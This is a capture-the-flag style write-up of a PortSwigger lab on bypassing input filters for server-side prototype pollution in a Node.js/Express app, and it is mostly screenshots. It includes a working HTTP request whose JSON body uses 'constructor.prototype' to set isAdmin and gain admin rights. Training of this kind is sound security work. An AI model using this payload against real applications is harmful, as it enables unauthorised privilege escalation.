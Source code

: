 
# Bypassing flawed input filters for server-side prototype pollution

This lab is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object.

To solve the lab:

- Find a prototype pollution source that you can use to add arbitrary properties to the global Object.prototype.

- Identify a gadget property that you can use to escalate your privileges.

- Access the admin panel and delete the user carlos.

- You can log in to your own account with the following credentials: wiener:peter

Note: When testing for server-side prototype pollution, it's possible to break application functionality or even bring down the server completely. If this happens to your lab, you can manually restart the server using the button provided in the lab banner. Remember that you're unlikely to have this option when testing real websites, so you should always use caution.

---------------------------------------------

References: 

- https://portswigger.net/web-security/prototype-pollution/server-side



![img](images/Bypassing%20flawed%20input%20filters%20for%20server-side%20prototype%20pollution/1.png)

---------------------------------------------

After interacting with the application I launched the extension:



![img](images/Bypassing%20flawed%20input%20filters%20for%20server-side%20prototype%20pollution/2.png)


It finds the vulnerability:



![img](images/Bypassing%20flawed%20input%20filters%20for%20server-side%20prototype%20pollution/3.png)


It looks like the extension added many fields:



![img](images/Bypassing%20flawed%20input%20filters%20for%20server-side%20prototype%20pollution/4.png)


In the update address page there is a Javascript script imported:



![img](images/Bypassing%20flawed%20input%20filters%20for%20server-side%20prototype%20pollution/5.png)


File “/resources/js/updateAddress.js”:



![img](images/Bypassing%20flawed%20input%20filters%20for%20server-side%20prototype%20pollution/6.png)



We can change most values but not “isAdmin”. From the notes, "an attacker can access the prototype via the constructor property instead of \_\_proto\_\_"

```
POST /my-account/change-address HTTP/2
...

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UKKKKKK","sessionId":"PDKi3aQnLAV0M8OWcB6qLExhgub4zcGW","constructor":{"prototype":{"isAdmin":true}}}
```



![img](images/Bypassing%20flawed%20input%20filters%20for%20server-side%20prototype%20pollution/7.png)
